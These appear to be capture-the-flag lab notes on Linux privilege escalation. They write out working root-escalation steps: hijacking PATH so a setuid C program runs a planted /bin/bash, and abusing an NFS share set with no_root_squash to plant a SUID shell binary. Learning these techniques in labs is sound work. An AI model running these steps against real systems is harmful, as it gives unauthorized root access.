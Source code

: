     What folders are located under $PATH
    Does your current user have write privileges for any of these folders?
    Can you modify $PATH?
    Is there a script/application you can start that will be affected by this vulnerability?
```
find / -writable 2>/dev/null
vim test.c
gcc test.c -o test
(
#include <stdio.h>
#include <unistd.h>
void main()
{
setuid(0);
setgid(0);
system("thm");
}
)
echo $PATH
export PATH=/tmp:$PATH
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
cd ../home/murdoch
./test
cat ../matt/flag6.txt
```

## NFS 
Lesson:
Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

### Target machine:
```
cat /etc/exports
```

### machine:
```
sudo su
showmount -e TARGETIP
mkdir /mnt/sharedfolder
mount -o rw TARGETIP:/home/ubuntu/sharedfolder /tmp/sharedfolder
(create c file:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void)
{
setgid(0);
setuid(0);
system("/bin/bash -p");
return 0;
}
)
gcc file.c -static -o file
chmod +s file
```
